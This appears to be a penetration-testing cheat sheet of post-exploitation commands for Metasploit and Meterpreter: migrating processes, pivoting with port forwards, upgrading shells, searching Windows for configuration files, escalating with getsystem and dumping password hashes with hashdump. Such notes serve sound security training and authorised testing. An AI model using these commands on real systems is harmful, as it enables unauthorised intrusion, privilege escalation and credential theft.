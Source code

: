 **Post-Exploitation Fundamentals**



```
# METERPRETER
run post/windows/manage/migrate
migrate <pid> #more quickly
## Pivoting
portfwd add -l <LOCAL_PORT> -p <TARGET_PORT> -r <TARGET_IP>
```

```
# Manual SHELL TO METERPRETER
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST <LOCAL_IP>
run

sessions
sessions 2

# Auto SHELL TO METERPRETER
sessions -u 1
sessions 3
```

**Win Post-Exploitation**



**To search for files and Folders**

<pre><code>dir /b/s "\*.conf\*"
dir /b/s "\*.txt\*"
dir /b/s "\*filename\*"
cd         #it's the same as 'pwd' command in linux
type       #it's the same as 'cat' command in linux
systeminfo         #information about the Operating System

# Check Users
cat /etc/passwd   #Users in linux  
List drives on the machine

<strong>fsutil fsinfo drives     #Check Drives
</strong></code></pre>

**HTTP/HFS**

```
# Meterpreter
sysinfo
getuid
getsystem
getuid
getprivs
hashdump
show_mount
ps
migrate

# msfconsole
use post/windows/manage/migrate
use post/windows/gather/win_privs #CHECK UAC/Privileges
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
```